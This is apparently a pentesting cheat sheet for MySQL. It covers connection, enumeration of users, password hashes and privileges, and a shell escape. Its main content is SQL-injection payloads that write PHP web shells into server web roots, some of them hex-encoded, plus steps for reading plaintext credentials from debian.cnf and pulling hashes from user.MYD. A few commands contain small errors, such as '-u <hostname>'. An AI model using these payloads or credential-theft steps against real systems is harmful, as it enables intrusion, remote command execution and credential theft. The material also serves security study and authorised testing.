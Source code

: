 # MySQL
MySQL is an open-source relational database management system (RDBMS) used to store, manage, and retrieve data.

## Ports
```
3306
33060
```

# Connection

```sh
# mysql-client
mysql -u <hostname> -u root
mysql -u <hostname> -u root@localhost
```

# Enumeration

```sql
-- Version
SELECT version();
SELECT @@version();

-- Get databases
SHOW databases;

-- User
SELECT user();

-- Get users, permissions and hahes
SELECT * FROM mysql.user;

-- Permission
SHOW GRANTS;
SHOW GRANTS FOR "root"@"localhost";
SHOW GRANTS FOR CURRENT_USER();

-- From DB
SELECT * FROM mysql.user WHERE user="root";

-- Get users with file_priv
SELECT user,file_priv FROM mysql.user WHERE file_priv="Y";

-- Get users with Super_priv
SELECT user,Super_priv FROM mysql.user WHERE Super_priv="Y";

-- Database Name
SELECT database(); 

-- List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION";

-- @Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION" AND routine_schema != "sys";

-- Get shell
\! sh
```



  

# Privilege Escalation

## Create User and Give Privileges

```sql
CREATE USER test identified BY "test";

GRANT SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by "mysql" WITH GRANT OPTION;
```


## Command Execution

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'

[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -

[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'


[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'

[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```


# Extracting MySQL Credentials From Files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the MySQL database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```


# References

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
- [https://dev.mysql.com/doc/](https://dev.mysql.com/doc/)
- [ https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17](  https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17)